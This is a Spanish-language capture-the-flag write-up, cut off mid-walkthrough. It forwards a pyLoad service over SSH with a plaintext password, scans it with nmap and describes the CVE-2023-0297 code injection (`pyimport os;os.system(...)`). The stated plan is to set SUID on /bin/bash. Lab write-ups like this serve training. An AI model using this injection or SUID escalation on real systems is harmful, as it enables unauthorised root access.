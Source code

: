 ```bash
sau@pc:~$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN
#####
```

### PyLoad service
Podemos traerlo con **Port Fordwarding** a través del **SSH** a nuestra maquina. Convertiremos ese puerto `8000` en el puerto `80` para verlo de nuestro lado.

```bash
$ sshpass -p "HereIsYourPassWord1431" ssh -L 80:127.0.0.1:8000 sau@10.10.11.214
```

Ahora con nmap podemos hacer un escaneo especifico a este puerto.

```bash
$ nmap -A -p80 localhost
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000039s latency).
Other addresses for localhost (not scanned): ::1

PORT   STATE SERVICE VERSION
80/tcp open  http    CherryPy wsgiserver
|_http-server-header: Cheroot/8.6.0
| http-robots.txt: 1 disallowed entry
|_/
| http-title: Login - pyLoad
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%2F
#####
```

Parece ser un servicio web que tiene un **login**, haciendo pruebas podemos asegururar que este no es vulnerable a ningun tipo de bypassing.

![PyLoad service login](pyload.png)

### RCE
Investigando más acerca de este servicio; especificamente de vulnerabilidades y exploits, encontramos un articulo donde nos explican que hay un [Remote Command Execution](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/) en una ruta especifica y un [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0297) asignado. En sí la estructura para la inyección de comandos es `pyimport os;os.system("touch /tmp/pwnd");`, debe estar **URL encoded** para que funcione, podemos usar [CyberChef](https://gchq.github.io/CyberChef/) para ello, lo mejor es ejecutar un `chmod u+s /bin/bash` para evitar problemas en los envíos de shell reversa, este es el comando final hecho con `curl`.

Antes de ejecutarlo, podemos ver que la `bash` no es **SUID**.
